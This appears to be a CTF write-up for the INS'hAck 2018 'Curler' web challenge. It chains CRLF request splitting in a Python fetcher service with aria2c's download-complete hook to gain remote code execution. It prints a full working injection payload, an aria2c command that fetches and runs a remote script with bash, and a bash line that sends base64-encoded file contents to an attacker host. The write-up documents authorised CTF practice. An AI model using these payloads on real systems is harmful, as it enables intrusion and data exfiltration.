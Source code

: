 ```yaml
---
layout: post
title:  "INS'hAck CTF 2018 - Curler"
date:   2018-04-09 12:46
categories: [INShAck2018]
tags: [Web]
author: jbz
---
```


>Show me some stats on my website! Have a look to my source code attached too!
>nc curler.ctf.insecurity-insa.fr 10001
>[source](https://static.ctf.insecurity-insa.fr/wrapper.py)

nc curler.ctf.insecurity-insa.fr 10001

```bash
Launching your app..
5..
4..
3..
2..
1..
Welcome to your FaaS (Fetcher as a Service)!
This program allows you to fetch some stats on a given web url.

Current config is:
URL to fetch: http://insecurity-insa.fr
Fetcher options: {'timeout': 2, 'connect timeout': 2, 'max tries': 5, 'dry run': False}

Please choose your action:
  1. Change the default configuration of our fetcher
  2. Choose the URL you want us to inspect
  3. Fetch!
  4. Exit

Choice?
```

From the source code we can observe a lot of limitations:

* `url_to_fetch` must be valid JSON
* `url_to_fetch` when parsed with `urlparse` must return the http scheme, a valid host and a path
* `fetcher_options` is very limited and strictly controlled
* The outbound request is not made by the script itself but sent via POST to a Flask backend (but sources are not provided)

Also, by using the service we can get these other informations:

* No response content is ever returned, only statistical data, so we only know if the request was succesfull or not
* The Flask backend application use aria2 to perform the requests:

```bash
connect to [jbzserver] from ip-147-135-133.eu [147.135.133.206] 57218
GET / HTTP/1.1
User-Agent: aria2/1.19.0
Accept: */*,application/metalink4+xml,application/metalink+xml
Host: jbzserver:8080
````

`aria2` is a C language lightweight download manager which supports a lot of protocols and options.
It looks like the client script sends aria2 parameters and the destination url to the backend which then probably uses them via `subprocess`. Given the parametrization of the parameters they are probably used correctly (i.e.: no command injection with ;$() etc) so we should check `aria2` manual to see if there is any option that can be useful. However before looking into the command execution we need to find a way to send our custom parameters to tha backend.

From the source code:

```python
def fetch():
    # Hit local flask server
    conn = HTTPConnection(fetcher_service, 8888)
    options = []
    for conf in fetch_options.values():
        options.append(conf["key"] + "=" + str(conf["value"]).lower())
    params = bson.dumps({
        "options": options
    })
    conn.request("POST", "/?url=" + url_to_fetch, params)
    response = conn.getresponse()
    print("Stats:")
    print(response.read().decode())
    print()
```

As we can see they're not using python's `request` library but the raw `http.client`. Since `url_to_fetch` is appended without any particular sanitizations (aparte from being parse by `urlparse`) it's possible to inject CRLF to perform and HTTP request Splitting:
in practice we could add some newline characters we changing the `url_to_fetch` parameter and modify the request with our own body and headers. By controlling the `Content-Type` header we are able to force the backend server to discard the additional body added by the script.

By running the original script locally in order to test the vulnerability we can see that using `"http://jbz.com/ HTTP/1.1\r\nheader: splitting-test"` as a url the backend would receive the following request:

```bash
connect to [127.0.0.1] from localhost [127.0.0.1] 56362
POST /?url=http://jbz.com/ HTTP/1.1
header: splitting-test HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: identity
Content-Length: 109

moptions_0
          --timeout=21--connect-timeout=22--max-tries=53--dry-run=false

```

So the splitting does work.

However there's still a problem: the body of the request is being produced by the `bson.dumps` functions which hash a binary output which is not being encoded. Since our payload need to be loaded from the `url` config via the `json.loads` we can't directly send stuff like null bytes because JSON will fail. After a lot of testing we discovered that while `\x00` can't be used because it's a control character, it's unicode equivalent, `\u0000` is indeed valid.

The next step is to check the `aria2` manual to see if there are useful options:

From [the aria2c doc](http://aria2.github.io/manual/en/html/aria2c.html):

```bash
--on-download-complete=<COMMAND>

Set the command to be executed after download completed.
See See Event Hook for more details about COMMAND.
See also --on-download-stop option. Possible Values: /path/to/command
```

Let’s see an example of how arguments are passed to command:

``` bash
$ cat hook.sh
#!/bin/sh
echo "Called with [$1] [$2] [$3]"
$ aria2c --on-download-complete hook.sh http://example.org/file.iso
Called with [1] [1] [/path/to/file.iso]
```

The above options should help to achieve code execution but there are are again limitations:

* `/path/to/command` needs the executable permissions which we cannot set
* The first argument of `/path/to/command` is the GID of the download

Luckly the GID of a download is random by default but it can be forced by the `--gid` option.
The following aria2c command succesfully execute the payload located at `http://jbzserver/a41b1d2f5a2c2da7`:

```bash
aria2c --on-download-complete=bash --gid=a41b1d2f5a2c2da7 http://jbzserver/a41b1d2f5a2c2da7 --dry-run=false
```

Here's the final payload prepared for the request splitting and unicode encoded:

```bash
"http://jbzserver:8080/a41b1d2f5a2c2da7 HTTP/1.1\r\nHost: localhost\r\nAccept-Encoding: identity\r\nContent-Length: 126\r\n\r\n\u007e\u0000\u0000\u0000\u0004\u006f\u0070\u0074\u0069\u006f\u006e\u0073\u0000\u0070\u0000\u0000\u0000\u0002\u0030\u0000\u0010\u0000\u0000\u0000\u002d\u002d\u0064\u0072\u0079\u002d\u0072\u0075\u006e\u003d\u0066\u0061\u006c\u0073\u0065\u0000\u0002\u0031\u0000\u001c\u0000\u0000\u0000\u002d\u002d\u006f\u006e\u002d\u0064\u006f\u0077\u006e\u006c\u006f\u0061\u0064\u002d\u0063\u006f\u006d\u0070\u006c\u0065\u0074\u0065\u003d\u0062\u0061\u0073\u0068\u0000\u0002\u0032\u0000\u000c\u0000\u0000\u0000\u002d\u002d\u0074\u0069\u006d\u0065\u006f\u0075\u0074\u003d\u0032\u0000\u0002\u0033\u0000\u0017\u0000\u0000\u0000\u002d\u002d\u0067\u0069\u0064\u003d\u0061\u0034\u0031\u0062\u0031\u0064\u0032\u0066\u0035\u0061\u0032\u0063\u0032\u0064\u0061\u0037\u0000\u0000\u0000\r\n\r\n"
```

For completeness, here's the payload:

```bash
#!/bin/bash
aria2c http://jbzserver:8080/?resp=$(cat flag.py | base64 | tr -d '\n')
```

```bash
Serving HTTP on 0.0.0.0 port 8080 ...
213.32.74.44 - - [09/Apr/2018 10:23:37] "GET /a41b1d2f5a2c2da7 HTTP/1.1" 200 -
213.32.74.44 - - [09/Apr/2018 10:23:38] "GET /?resp=SU5TQXt3cm9uZ19saWJzX2NvbWJpbmF0aW9uP19vcl9iYWRfcHJvZ3JhbW1lcj99 HTTP/1.1" 200 -
```

The flag was `INSA{wrong_libs_combination?_or_bad_programmer?}`.
